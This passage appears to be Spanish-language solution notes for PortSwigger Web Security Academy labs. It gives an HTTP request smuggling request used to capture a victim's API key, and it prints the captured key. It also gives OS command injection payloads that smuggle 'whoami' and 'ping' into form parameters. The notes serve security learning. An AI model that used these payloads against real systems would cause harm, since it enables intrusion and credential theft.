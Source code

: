 #### Descripción:

1. Enviar la siguiente request:

```
POST / HTTP/1.1
Host: ac5a1f211f44e31180d4a4c4000400fd.web-security-academy.net
Content-Length: 39
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
foo: bar
```

2. Ir al inicio del sitio web (LABID.web-security-academy.net/)
3. Buscar entre las request realizadas las palabras "API Key" (se puede buscar a la derecha abajo de la response y recorrer todas las request o desde el menú Burp->Search si se tiene la versión Pro)
4. Si se encuentra, enviar la API Key de la víctima como solución. Sino, repetir los pasos 1 a 3 (puede llevar muchas repeticiones del mismo proceso hasta que aparezca).

#### Solución encontrada:

6MM7nNMckO31arHOfLkLKJyGhNnKz2cl

---

## [OS command injection](https://portswigger.net/web-security/os-command-injection)

### [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

#### Solución

1. Consultar el stock de un producto y capturar la request
2. Setear el parámetro storeId=1|whoami

### [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

#### Solución

1. Enviar un mensaje de feedback y capturar la request
2. Setear el parámetro email=||ping -c 10 127.0.0.1||

### [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

#### Solución

